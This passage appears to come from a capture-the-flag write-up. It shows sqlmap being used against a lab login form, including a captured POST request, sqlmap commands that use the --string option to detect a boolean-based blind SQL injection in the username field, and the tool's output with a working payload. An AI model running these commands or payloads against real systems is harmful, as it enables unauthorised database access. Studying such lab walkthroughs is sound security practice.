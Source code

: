 ```
Upgrade-Insecure-Requests: 1

username=chris&password=chris

```

I started with the following command: `sqlmap -r login-chris.request --level 5 --risk 3 --batch`, but it didn’t result in any hits. At the end of a failed run it returns this message:

```

[22:18:32] [CRITICAL] all tested parameters do not appear to be injectable. Also, you can try to rerun by providing a valid value for option '--string' as perhaps the string you have chosen does not match exclusively True responses. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')

```

#### sqlmap –string

To test a blind injection, we can look for output on the page that changes based on our input. We know the username field gives us “Try again” when the name doesn’t exist, and “Wrong identification : admin” when the name does. If you check out the man pages for `sqlmap`, the `--string` option says “–string=STRING String to match when query is evaluated to True”. There’s also a `--not-string`, which is when the query is false.

Because it’s clear that the site is first doing a query with just the username, to see if it exists, before checking the password, that returns true is the username exists. So if there username field is injectable, then we can tell `sqlmap` to check that using the `--string` option.

```

root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification"
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.2.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

...
[08:25:48] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
...
[08:26:26] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 301 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=chris' AND 8059=8059-- GlxT&password=chris
---
[08:26:31] [INFO] testing MySQL
[08:26:31] [INFO] confirming MySQL
[08:26:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[08:26:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'

```
